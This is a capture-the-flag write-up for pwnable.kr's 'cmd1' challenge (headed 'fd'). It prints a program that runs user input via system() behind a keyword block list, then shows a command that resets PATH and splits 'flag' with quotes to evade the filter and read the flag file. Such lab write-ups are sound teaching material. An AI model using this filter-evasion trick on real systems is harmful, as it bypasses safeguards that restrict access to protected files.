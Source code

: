 ## pwn : fd [writeup]

Challenge from [pwnable.kr](https://pwnable.kr/)

**In this challenge** We have this code :

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

We need this code to run the command `cat flag`:
```c
system( argv[1] );
```

So we have to put in our argv
```bash
cat flag
```

**This way ?**
```bash
./cmd1 "cat flag"
```

**Wrong!**

Because this line 
```c
putenv("PATH=/thankyouverymuch");
```
will set an env variable `PATH` to `/thankyouverymuch`
`PATH` is an environment variable that tells the shell which directory to search for executable files.

understand more about environment variables [HERE](https://medium.com/towards-data-engineering/understanding-the-path-variable-in-linux-2e4bcbe47bf5#:~:text=The%20PATH%20variable%20in%20Linux%20is%20an%20environment%20variable%20that,printenv%20%7C%20grep%20PATH) 

after we understand the problem let's Solve it.

**Steps To Solve**

1. Get the PATH env value by using `env` command :
![cmd1](https://i.imgur.com/lASMcQt.png)

2. Now Before executing `cat flag` we want to set our `PATH` variable to it's value, in our case :
```bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
3. Lets give the program our export variable :
```bash
./cmd1 "export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin' && cat flag"
```
4. But why we didn't get the flag yet ?
- because of this function `filter`
```c
if(filter(argv[1])) return 0;
```

```c
int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
```

The function `filter` checks if a given command string (cmd) contains any of the substrings `"flag"`, "`sh"`, or `"tmp"`. If any of these substrings are found, the variable r is incremented by one for each match.

So it our case it returns 1 because our `argv[1]` contains `flag`.

to solve this i did a simple trick :
```bash
./cmd1 "export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin' && cat fl'a'g"
```

I addeed `''` to flag `fl'a'g` because it will expand later on to `flag`.

end.